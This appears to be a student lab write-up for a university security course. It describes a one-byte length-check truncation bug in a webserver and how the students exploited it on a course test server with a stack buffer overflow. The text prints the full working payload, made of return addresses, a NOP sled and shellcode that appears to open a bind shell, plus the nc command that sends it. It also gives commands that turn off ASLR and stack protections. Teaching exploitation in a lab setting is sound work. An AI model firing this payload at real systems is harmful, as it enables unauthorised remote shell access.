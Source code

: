 # p2 README

The vulnerability that we found in the webserver was in check_filename_length(byte len). This function strangely takes in a parameter of byte len. We then realized that the input to the function was an integer. Because the integer is 4 bytes and it is converted to a byte, only one byte is looked at in the check_filename_length function. This is a big vulnerability because the string can be valid with a large length if the last byte is less than 100. Because a byte is 2^8 bits, the totalByteSize%256 must be less than 100. Our attack was composed of 50 RA’s, 400 NOPs, and a shell code of 92 Bytes which resulted in a total of 792 Bytes. 792%256=24 which is less than 100 and therefore a valid string length. This string was created in the makeString.cc file. 

When we staged our attack on the remote server, we knew that all of the possible guessing addresses to hit our NOP sled had to be “above” 0xc0000000, since this was the maximum address space for the 32-bit architecture. We decided to increment by 500 bytes because the size of the shellcode plus our NOPs over 500, so we were confident that by moving “down” the stack by 500, we would eventually hit our NOP sled. We were very lucky, and hit the sled on our first guess, allowing us to exec a shell and edit the files in the server. The file that we created was called “hacked?” and “weHacked.txt”



The commands we utilized:



setarch `uname -m` -R /bin/bashv
gcc -m32 -z execstack -fno-stack-protector webserver.c -o webserver
echo -e "GET /index.html HTTP" | localhost 9000 
echo -e "GET /hacked? HTTP" | nc 310test.cs.duke.edu 9190
cat < hacked?	
	~’Text’



echo -e "GET /\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x0b\xfe\xff\xbf\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x40\x89\xc3\x50\x40\x50\x89\xe1\xb0\x66\xcd\x80\x31\xd2\x52\x66\x68\x2b\x0d\x43\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd\x80\x40\x89\x44\x24\x04\x43\x43\xb0\x66\xcd\x80\x83\xc4\x0c\x52\x52\x43\xb0\x66\xcd\x80\x93\x89\xd1\xb0\x3f\xcd\x80\x41\x80\xf9\x03\x75\xf6\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80.html HTTP" | nc 310test.cs.duke.edu 9190
